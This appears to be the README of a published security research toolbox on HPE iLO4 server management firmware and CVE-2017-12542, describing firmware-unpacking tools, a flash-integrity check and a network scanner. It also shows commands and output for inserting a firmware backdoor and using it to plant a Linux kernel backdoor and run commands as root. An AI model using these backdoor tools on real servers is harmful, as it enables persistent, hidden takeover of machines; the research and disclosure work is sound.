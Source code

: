 Subverting your server through its BMC: the HPE iLO4 case
=========================================================


Introduction
------------

``iLO`` is the server management solution embedded in almost every ``HP``
servers for more than 10 years. It provides every feature required by a system
administrator to remotely manage a server without having to reach it
physically. Such features include power management, remote system console,
remote CD/DVD image mounting, as well as many monitoring indicators.

We've performed a deep dive security study of ``HP iLO4`` (known to be used on
the family of servers ``HP ProLiant Gen8`` and ``ProLiant Gen9`` servers) and
the results of this study were presented at the **REcon** conference held in
Brussels (February 2 - 4, 2018, see [1]_).

A follow-up of our study was presented at the **SSTIC** conference, held in
France (Rennes, June 13 - 15, 2018, see [8]_). We focused this talk on
firmware backdooring and achieving long-term persistence.

``iLO4`` runs on a dedicated ``ARM`` processor embedded in the server,
and is totally independent from the main processor. It has a dedicated flash
chip to hold its firmware, a dedicated RAM chip and a dedicated network
interface. On the software side, the operating system is the proprietary RTOS
GreenHills Integrity [2]_.


Results
-------

One critical vulnerability was identified and reported to the ``HP PSIRT`` in
February 2017, known as ``CVE-2017-12542`` (``CVSSv3`` 9.8 [3]_) :

* Authentication bypass and remote code execution
* Fixed in ``iLO4`` versions ``2.53`` (released in May 2017, buggy) and ``2.54`` [4]_


Slides and demos
----------------

REcon Brussels 2018
*******************

The slides from our **REcon** talk are available here_ . They cover the
following points:

* Firmware unpacking and memory space understanding
* GreenHills OS Integrity internals:

    * kernel object model
    * virtual memory
    * process isolation

* Review of exposed attack surface: ``www``, ``ssh``, *etc.*
* Vulnerability discovery and exploitation
* Demonstration of a new exploitation technique that allows to
  compromise the host server operating system through DMA.


To illustrate them, we also release the three demos as videos. The first one
demonstrates the use of the vulnerability we discovered to bypass the
authentication from the RedFish API:


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo1_connection_bypass.gif
    :width: 100%
    :align: center

In the second one we show how the vulnerability can also be turned into an
arbitrary remote code execution (``RCE``) in the process of the web server;
allowing read access to the ``iLO`` file-system for example.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo2_dump_users.gif
    :width: 100%
    :align: center

Finally, in  the third videos, we leverage this ``RCE`` to exploit an ``iLO4``
feature which allows us to access (``RW``) to the host memory and inject a
payload in the host Linux kernel.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo3_host_pwn.gif
    :width: 100%
    :align: center


SSTIC 2018
**********

The slides from our **SSTIC** talk are available at this location_ (more
details can be found in the paper_). After a brief recap of our **REcon**
talk, we propose the following new materials:

* Firmware security and boot chain analysis
* Backdoor architecture

To illustrate these works, we release a new demo as video. It demonstrates
the use of the vulnerability we discovered in the web server to flash a new
backdoored firmware. Then we demonstrate the use of the DMA communication
channel to execute arbitrary commands on the host system.

.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo4_backdoor.gif
    :width: 100%
    :align: center



Tooling
-------

To support our research we've developed scripts and tools to help us
automatize some tasks, especially firmware unpacking and mapping.


Firmware
********

``ilo4_extract.py`` script takes an ``HP Signed file`` as input (obtained from
the update package). It is invoked with:

::

    >python ilo4_extract.py ilo4_244.bin extract


Extract from the output log:

::

    [+] iLO Header 0: iLO4 v 2.44.7 19-Jul-2016
      > magic              : iLO4
      > build_version      :  v 2.44.7 19-Jul-2016
      > type               : 0x08
      > compression_type   : 0x1000
      > field_24           : 0xaf8
      > field_28           : 0x105f57
      > decompressed_size  : 0x16802e0
      > raw_size           : 0xd0ead3
      > load_address       : 0xffffffff
      > field_38           : 0x0
      > field_3C           : 0xffffffff
      > signature


From the extracted file, ``ilo0.bin`` is the ``Integrity`` applicative image
(userland). It contains all the tasks that will run on the ``iLO`` system. To
parse each of these tasks and generate the ``IDA Pro`` loading script, one can
use the script ``dissection.rb``.

It relies upon the ``Metasm`` framework [5]_ and also requires the ``Bindata``
library [6]_.

::

    >ruby dissection.rb ilo0.bin


Back to the kernel image, ``ilo4_extract.py`` told us that:

::

    [+] iLO Header 1: iLO4 v 0.8.36 16-Nov-2015
      > magic              : iLO4
      > build_version      :  v 0.8.36 16-Nov-2015
      > type               : 0x02
      > compression_type   : 0x1000
      > field_24           : 0x9fd
      > field_28           : 0x100344
      > decompressed_size  : 0xc0438
      > raw_size           : 0x75dad
      > load_address       : 0x20001000
      > field_38           : 0x0
      > field_3C           : 0xffffffff

Using ``IDA Pro`` to load the extracted file ``ilo1.bin`` at ``0x20001000`` as
``ARM`` code, one can also study the ``Integrity`` kernel.


* ``secinfo4.py`` parses the section information embedded into the kernel image
  and creates the appropriate memory segment in the disassembler
* ``parse_mr.py`` dumps the registered ``Memory Region`` objects


``iLO5`` format differs slightly, however the same ``dissection.rb`` script
can be used to extract the ``Integrity`` applicative image.


Firmware backdooring
********************

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to
add a backdoor in the webserver module. The backdoor can then be used using
the ``backdoor_client.py`` script.

::

    >./insert_backdoor.sh ilo4_250.bin
    [...]
    [+] Firmware ready to be flashed

    >python backdoor_client.py 192.168.42.78
    [+] iLO Backdoor found
    [-] Linux Backdoor not detected
    [...]
    >>> ib.install_linux_backdoor()
    [*] Dumping kernel...
    [+] Dumped 1000000 bytes!
    [+] Found syscall table @0xffffffff81a001c0
    [+] Found sys_read @0xffffffff8121e510
    [+] Found call_usermodehelper @0xffffffff81098520
    [+] Found serial8250_do_pm @0xffffffff81528760
    [+] Found kthread_create_on_node @0xffffffff810a2000
    [+] Found wake_up_process @0xffffffff810ad860
    [+] Found __kmalloc @0xffffffff811f8c50
    [+] Found slow_virt_to_phys @0xffffffff8106c6a0
    [+] Found msleep @0xffffffff810f0050
    [+] Found strcat @0xffffffff8140c9c0
    [+] Found kernel_read_file_from_path @0xffffffff812236e0
    [+] Found vfree @0xffffffff811d7f90
    [+] Shellcode written
    [+] iLO Backdoor found
    [+] Linux Backdoor found
    >>> ib.cmd("/usr/bin/id")
    [+] Found shared memory page! 0xeab00000 / 0xffff8800eab00000
    uid=0(root) gid=0(root) groups=0(root)


Forensics
*********

The ``exploit_check_flash.py`` script can be run against an instance of ``HP
iLO4`` vulnerable to ``CVE-2017-12542``. Its purpose it to dump the content of
the flash and then compare its digest with a known "good" value.

::

    >python exploit_check_flash.py 192.168.42.78 250


Network
*******

Finally, to help people scan for existing vulnerable ``iLO`` systems exposed in
their own infrastructures, we release a simple ``Go`` scanner. It attempts to
fetch a special ``iLO`` page:  ``/xmldata?item=ALL``; if it exists, then it
extracts the firmware version and HP server type.


First edit the "``targets``" variable in the code and specify the internal
``IP`` ranges you want to scan.

::

   var (
        targets = []string{
                "10.0.0.0/8",
                "192.168.66.0/23",
                "172.16.133.0/24"}
   )


Then compile the code for your OS/architecture.

::

    > env GOOS=target-OS GOARCH=target-architecture go build iloscan.go


For example:

::

    > env GOOS=openbsd GOARCH=amd64 go build iloscan.go
    > ./iloscan

Then look the result in ``/tmp/iloscan.log`` (can be changed in the source):

::

    > less /tmp/iloscan.log
    192.168.66.69{{ RIMP} [{{ HSI} ProLiant DL380 G7}] [{{ MP} 1.80 ILOCZ2069K2S4       ILO583970CZ2069K2S4}]}


Authors
-------

* Fabien PERIGAUD - ``fabien [dot] perigaud [at] synacktiv [dot] com`` - ``@0xf4b``
* Alexandre GAZET - ``alexandre [dot] gazet [at] airbus [dot] com``
* Joffrey CZARNY  - ``snorky [at] insomnihack [dot] net`` - ``@\_Sn0rkY``



License
-------

The scripts and scanner are released under the [GPLv2]_.



References
----------

.. [1] https://recon.cx/2018/brussels/talks/subvert_server_bmc.html
.. [2] https://www.ghs.com/products/rtos/integrity.html
.. [3] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12542
.. [4] http://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03769en_us
.. [5] https://github.com/jjyg/metasm
.. [6] https://github.com/dmendel/bindata
.. [8] https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/
.. [GPLv2] https://github.com/airbus-seclab/ilo4_toolbox/blob/master/COPYING
.. _here: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/RECONBRX2018-Slides-Subverting_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _location: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/SSTIC2018-Slides-EN-Backdooring_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _paper: https://airbus-seclab.github.io/ilo/SSTIC2018-Article-subverting_your_server_through_its_bmc_the_hpe_ilo4_case-gazet_perigaud_czarny.pdf
